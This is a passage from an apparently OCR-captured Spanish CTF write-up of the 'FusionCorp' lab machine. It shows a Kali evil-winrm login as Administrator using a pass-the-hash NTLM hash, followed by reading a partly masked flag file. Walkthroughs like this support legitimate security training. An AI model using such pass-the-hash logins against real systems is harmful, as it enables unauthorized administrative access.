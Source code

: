             [*] Cleaning up...
        
        5)Conectamos como Administrator.

            ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
            └─# evil-winrm -i fusion.corp -u Administrator -H '9653b02d945329c7270525c4c2a69c67'
                                                    
            Evil-WinRM shell v3.5                                      
            Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                        
            Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                                    
            Info: Establishing connection to remote endpoint
            *Evil-WinRM* PS C:\Users\Administrator\Documents>

        -Obtenemos Flag(User3)

            *Evil-WinRM* PS C:\Users\Administrator> type .\Desktop\flag.txt
            THM{f72988e57bfc1de----------0464d15}


